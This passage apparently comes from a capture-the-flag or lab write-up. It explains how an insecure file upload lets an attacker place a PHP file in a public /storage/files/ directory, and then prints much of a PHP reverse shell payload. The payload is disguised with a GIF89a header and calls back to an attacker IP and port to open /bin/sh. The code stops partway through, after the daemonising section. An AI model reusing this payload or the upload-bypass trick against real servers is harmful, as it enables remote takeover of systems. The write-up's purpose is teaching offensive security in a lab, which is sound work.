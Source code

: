 ![[IMG-20250825192320826.png]]

![[IMG-20250825192320890.png]]

Now we can successfully upload files to the server, and we discover that they are accessible under the path `/storage/files/`.

![[IMG-20250825192320956.png]]

With this knowledge, we can upload a PHP file containing a reverse shell payload.  
Once uploaded, we can access it via its public URL in `/storage/files/` to execute the payload and obtain a reverse shell connection back to our machine.

```php
GIF89a;
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.222';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);
```